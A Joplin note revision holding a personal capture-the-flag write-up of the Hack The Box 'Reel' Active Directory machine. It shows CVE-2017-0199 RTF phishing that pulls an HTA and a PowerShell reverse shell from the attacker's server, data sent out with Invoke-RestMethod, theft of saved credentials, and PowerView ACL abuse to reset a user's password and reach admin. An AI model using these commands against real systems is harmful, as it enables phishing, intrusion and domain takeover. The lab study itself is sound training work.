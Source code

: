 id: db38b6591388475391e59d95d251b62f
parent_id: 
item_type: 1
item_id: f21c6f5f2f59420ca228482d82081874
item_updated_time: 1642607794395
title_diff: "[{\"diffs\":[[1,\"Reel (AD)\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":9}]"
body_diff: "[{\"diffs\":[[1,\"## Nmap Scripts\\\n\\\n> nmap -sC -sV -oA nmap/reel 10.10.10.77\\\n\\\n![260d2a8d8eefbb8c2dff61fb2aca7a14.png](:/5878cfea59d54811b41b076abb4d3602)\\\n\\\nAnonymous document in ftp is allowed, and there is a documents directory\\\n\\\nOpenSSH usually is not in Windows, so might be a VM\\\n\\\nPort 25 has SMTP which shows there are some enumerations being done to the server\\\n\\\nMain discovery was that when HELLO was sent, there was a response, but when EHLO (Extended Hello) was sent, it responded Invalid ==> can conclude to be smtp\\\n\\\nRPC 'junk', 2012 R2 standard -- cannot use ethernalblue\\\n\\\n![71cd91acec0aa704cad95af9bd14d2bc.png](:/9ff6fb97d14846d6b013a392b46bf640)\\\n\\\nClock-skew - not much skew.\\\n\\\nSMB shown to have guest\\\n\\\n![dcf033710c274d177ba5a9b5d4e13288.png](:/af6a3c9d0c8142e0bbff4c2db107e982)\\\n\\\nA ping to the machine shows 127, which is the normal TTL rate for Windows\\\n\\\nIf it is a Linux Machine, the TTL will be 64, 254 is a CISCO machine\\\n\\\n## CHeck on FTP\\\n\\\nftp into the server and use anonymous account with a random password\\\n\\\n![36740fe6b29f43313bd5f13b7de4ed89.png](:/8fa9e06afea74e1693e5e49f4b1e6f60)\\\n\\\nTo download all the files inside, use\\\n\\\n> mget *\\\n\\\nRead the readme.txt - hints to be a phishing form of exercise\\\n\\\n![2eb17218aff43369f086c6d01dc10d7a.png](:/20f9b697e7174e89a2efa69f65f25e0c)\\\n\\\nUse Exiftool to check what kind of document is the .docx file![3318a1d76250c3faa293e408b79bf65b.png](:/ecb0d10cc3f249b78c648d9c577c3681)\\\n\\\nCheck on the other docx file, the windows event forwarding, and found an email address in the Creator parameter\\\n\\\n![a7f0897b33bb4ef071ff85736d800cf6.png](:/91c25a131d65407db7bf0beb1c118399)\\\n\\\n## Check if Email address is valid with Mail Server (SMTP)\\\n\\\n> telnet 10.10.10.77 25\\\n\\\nThen key in the following to craft a message and to do a verification\\\n\\\n![7bfde80bac77c4096df78b418b5e08f8.png](:/9238cb70035a4a9ea186ce1870562444)\\\n\\\nThe domain of the mail server is able to verify users within the domain, but if the domain is out of the user's context, then we won't be able to know how to verify, and the mail server will just accept it\\\n\\\n## Look into the Word Documents with libreoffice\\\n\\\n![536b5c16a6d7656dd9bb04f72a232539.png](:/ff04b9a1727e4f26a3034428f289019c)\\\n\\\nWe will not be able to use powershell for example, as there are hash rules for those kind of files due to AppLocker\\\n\\\n## Create a Canary Document to test if the document will be open by receiving end\\\n\\\n![0528fd13cb502dc72faf7e1a13d70cd0.png](:/7f40be8f079f40c98fe618c92754fcdc)\\\n\\\nGo into Insert Tab => Quick Parts => Field => IncludePicture under Links and References - key in the destination you want\\\n\\\nIf someone downloads and opens the file, it should have a response on the server. Unless the server has something like e.g. Powershell script that is blocked and requires to \\\"Enable Macros...\\\", or something that blocks, then we won't have a response.\\\n\\\nCanary images is very good as it operates before the macro -- this doesn't work as the person is not using office, so no response\\\n\\\n## Create Exploit RTF document\\\n\\\nSearched online for a RTF exploit and found 2017-0199\\\n\\\n> git clone https://github.com/bhdresh/CVE-2017-0199\\\n> \\\n> python cve-2017-0199_toolkit.py -M gen -w ippsec.rtf -u ['http://10.10.14.17/PleaseSubscribe.hta'](http://10.10.14.17) -t RTF -x 0\\\n\\\nOnce the RTF file is generated, then we look into powershell scripts in Nishang\\\n\\\nFind the Out-HTA file and generate the HTA file. For example\\\n\\\n![72cc32015c066ceec55650a725629e34.png](:/1748cfb66fe0403fb6573264aefc6df0)\\\n\\\nMove the HTA file to a folder where the webserver will be started\\\n\\\nThen copy the reverse shell into the same folder as well\\\n\\\n![2d96a040044ace0217b50f7777e6caf2.png](:/342da7e2b92a416e882d56f9843fa75d)\\\n\\\nModify the reverse shell ps1 script to call the reverse shell script at the end of the file\\\n\\\n![83b6ad8e99935ad466beea165466b0e4.png](:/fcc16da1bf054347a270a09779feae92)\\\n\\\nThen start the web server\\\n\\\n> python -m SimpleHTTPServer 80\\\n\\\nDo a netcat listener\\\n\\\n> nc -nlvp 9001\\\n\\\nSend the email within the webserver directory (Where the rtf file is located)\\\n\\\n![57adda8cd2c98e8c38c41369621865a4.png](:/a0ab26b867034341871e37bfb8d458a1)\\\n\\\nYou should get a response on the web Server\\\n\\\n![da9200ead64be6c175ec51877b64b94f.png](:/1e59f3941ffe4b5188f86232809f1358)\\\n\\\nHTA file did not execute, because there were no quotes when generating the RTF file\\\n\\\n![9ca415b463c45b815d31b4164ae30fcd.png](:/f994bf31080443fcac7103285c736313)\\\n\\\nNo we have a shell\\\n\\\n## Check AppLocker Policies\\\n\\\n> $output = Get-ApplockerPolicy -Effective -xml; Invoke-RestMethod -Method PUT -Body $outfile -Uri http://IP/App.xml\\\n\\\n![30bc02a454a3b094b0c304daf3120303.png](:/ad58aa1cf2b040179140744b6eb1dde7)\\\n\\\nOpening the file in Firefox will give a weird XML error\\\n\\\nCopied the whole text out of the AppLocker Policy, and create the file on your kali instead\\\n\\\n![49555d94061b1d2e009b6544eb73c40e.png](:/ec4547e581f243c5874bebec7f964c87)\\\n\\\nDLLs are not configured; You can always use DLL\\\n\\\nScripts, you can find the exceptions\\\n\\\n![36f897eeb17edb241d0c259df278bc59.png](:/1818706e094146d59266d5fc69c75e93)\\\n\\\n## Check What Services are running\\\n\\\n> Get-Service | where {$_.Status -eq \\\"Running\\\" }\\\n\\\n![cec7c37445e3e544e14f44b252be8b2b.png](:/56ff158503444807b10a72cc75796f70)\\\n\\\nCan confirm that ssh is running on Windows\\\n\\\n## Check on users Directory\\\n\\\n![a84a381e54668812b89c279689ce2bac.png](:/e7b46399bbbc4c768567eff735a8281a)\\\n\\\nGo into nico and Desktop, and we can find the user.txt file\\\n\\\n![4067fdcac50069bbdc83af54ad9d95bb.png](:/0b1e30388b68445da31f63dd1ff08e67)\\\n\\\nThere is a cred.xml file as well. looking at it, we obtain a user and password\\\n\\\n![e58a7ab1a5a4e603cceacaf69e0721b4.png](:/a336eeb1d9bc4b31925f7b12188d5e19)Store the credentials in an Object that is related to the System.Management.Automation.PSCredential\\\n\\\n![ae4d962dd101b8c2e63d29da735b18dc.png](:/d419173dbd7c4a4e98586a768edc93dc)\\\n\\\nTo read the credential - use the object with GetNetworkCredential()\\\n\\\n![72bfb48c092d13b00564222143aa5f38.png](:/c3f942feb6574ee998ce4581ac421bcc)\\\n\\\nSince we know there is a SSH service, we can use the credentials to login and get a proper command prompt\\\n\\\n![f4e6e236be4ae1f63ffbf8158d9cdb5d.png](:/e2c5ed443e8344b5bd02fb50ddd7c537)\\\n\\\n## Enumerate Items in Tom Shell\\\n\\\nOn the Desktop, there is a BloodHound, and a note, which states that no AD attack paths from user to Domain Admin, and they should re-run Cypher query against other groups created\\\n\\\n![21a62d8b3fcf4e2a2bdb642fa6f16450.png](:/c0a6aa3e7c4b40b5bbffb77fdd9d3f2c)\\\n\\\nYou can also download BloodHound and run it in nico as well\\\n\\\n> Invoke-Bloodhound -CollectionMethod All\\\n\\\n![2abf12396c6896220a218cff5778ac6f.png](:/92ef8c85114742ba9d1383c73a7b2992)We then transfer the zip file to Kali\\\n\\\n**![d9a259b42a659c65f93daaf1486a5287.png](:/09675b14938e4ce99555225587e8cb4e)**\\\n\\\n## **Use BloodHound to understand the json files obtained**\\\n\\\nSetup BloodHound (If you haven't, by setting up the neo4j), and run BloodHound, then drag the zip file into the program\\\n\\\n![d8ea38335d8e3a1449c1c1bb3b0a2094.png](:/c018a408cb69452888111152a8913d01)\\\n\\\nIf we look into \\\"Shortest Paths to High Value Targets\\\", we know that Nico and Tom are connected to Print Operators group, which there is a way to do Priv Esc to get admin\\\n\\\nTry to look for Groups that Bloodhound is not aware of\\\n\\\n> net groups /domain\\\n\\\n![87cd7b96f679b03aed98527b032b97d2.png](:/0c697e25d80746ee963c2e83b726b5fd)What we notice is that there is a group \\\"Backup Admins\\\" That was not shown in BloodHound. So we search in BloodHound to see Backup Admins relation to Nico\\\n\\\n![20cfeb5764d0ba680f0cfaffd99f9b29.png](:/c7575e4ef4cb4f3f9f3e098d62dc22c5)So there is a relationship based on a writeowner adsecurity. You can google for more information\\\n\\\n## Will need to use PowerView to exploit\\\n\\\nDownload powerview from web server\\\n\\\nUse the function Set-DomainObjectOwner to be owner of Herman\\\n\\\n> Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico\\\n\\\nThen obtain all the rights and permissions to Herman\\\n\\\n> Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose\\\n\\\nCreate new password for Herman\\\n\\\n> $pass = ConvertTo-SecureString 'PleaseSubscribe!' -AsPlainText -Force\\\n> \\\n> Set-DomainUserPassword Herman -AccountPassword $pass -Verbose\\\n\\\nAttempt to login with Herman using SSH and you are able to login; Use PowerView ability Get-DomainGroup to view group membership\\\n\\\nIf we use Nico and check on the Groups Herman is in, you will not see backup admins\\\n\\\n![97a8b9a4d800a9a07d88ab3a87afb2d4.png](:/2993904f26044af3824946238f98bd78)\\\n\\\nNow we add Herman into the backup domain group\\\n\\\n> $cred = New-Object System.Management.Automation.PSCredential('HTB\\\\\\\\Herman', $pass)\\\n> \\\n> Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred\\\n\\\n![13a6499fd11154c334afd90775a8054b.png](:/9099b5055e4447dbbb0af140ac3fab59)\\\n\\\nNow we are able to see administrators folders and get the proof in desktop, but we will get access denied\\\n\\\n![8cb6c411b5bc5c515d44b45215c97381.png](:/6e9584ba97a9417094f4464b6f22c4e1)\\\n\\\n## Enumerate Desktop\\\n\\\nThere is a backup scripts folder; We can enumearte the folder for password\\\n\\\n> type * | findstr password \\\n\\\n![30631f26622b8390c5d7a015c29e37da.png](:/2bb7d520a196452a80d9a64ebb6ca1f2)\\\n\\\nTest Administrator SSH login and can read root\\\n\\\n![764326d6890aafeb207acc1ecb254f0c.png](:/8a06495797a646e0a36197fef45fabb4)\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":9236}]"
metadata_diff: {"new":{"id":"f21c6f5f2f59420ca228482d82081874","parent_id":"3305ced1fb6949afa3e15d5355c1c230","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.856Z
created_time: 2022-02-28T02:44:25.856Z
type_: 13